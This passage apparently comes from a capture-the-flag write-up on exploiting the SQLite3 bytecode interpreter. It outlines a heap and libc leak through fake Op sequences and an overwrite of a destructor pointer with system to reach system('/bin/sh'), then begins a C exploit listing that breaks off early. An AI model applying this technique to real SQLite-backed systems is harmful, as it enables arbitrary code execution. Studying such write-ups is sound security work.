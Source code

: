 ### Challenges and Exploitation Strategy

The challenges of pwning SQLite3 bytecode interpreter are (as far as I know)

- No ArrayBuffer; We cannot do buf[arbitrary_addr] = arbitrary_value easily (no easy arbitrary address write (AAW))
- Illegal OP_IntCopy cannot overwrite the string buffer’s address, as there are located in a different offset in a single memory cell (+0 vs +8).


Rough overview of my exploitation strategy is to leak the heap address, and creates a fake Op sequence in the heap.
Since the offset to the op sequence is always the same, so we can jump to the fake Op sequence with 100 percent.
Since we have leaked the heap address in the first stage, in the second stage (the fake Op sequence), we can create an opcode with the heap address.
Using this primitive, we can leak the libc address.
Finally, we overwrite the memory cell's destructor function pointer to libc's `system`, and utilize `OP_VCheck` opcode, we can achieve `system("/bin/sh")`.

```c
#include <sqlite3.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdio.h>
#include "mylib.c"

#define MAP_ADDR 0x2000000000
#define MEM_Dyn 0x1000

int main()
{

  Op *cur;

  Op *buf = mmap((void *)MAP_ADDR, 0x10000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE | MAP_FIXED, -1, 0);
  if (buf == MAP_FAILED)
  {
    perror("mmap");
    return 1;
  }
  printf("buf: %p\n", buf);

  Op *target = malloc(0x100 * sizeof(Op));

  // **main**
  cur = buf;
  // aux
  i64 value = 0x4142434445;

  Op2(cur++, OP_Init, 0, 1);
  // leak heap address
  // 10: addr of heap
  // 11: addr of libc
  // 12: addr of stack
  int RHEAP = 10;
  int RLIBC = 11;
  int RSTACK = 12;
  int RSQLITE = 13;

  char *dummy = (char *)(buf + 0xf0);

  Op *fake_op2 = buf + 0x20; // for leaking sqlite
  Op *fake_op3 = buf + 0x30; // for leaking libc
```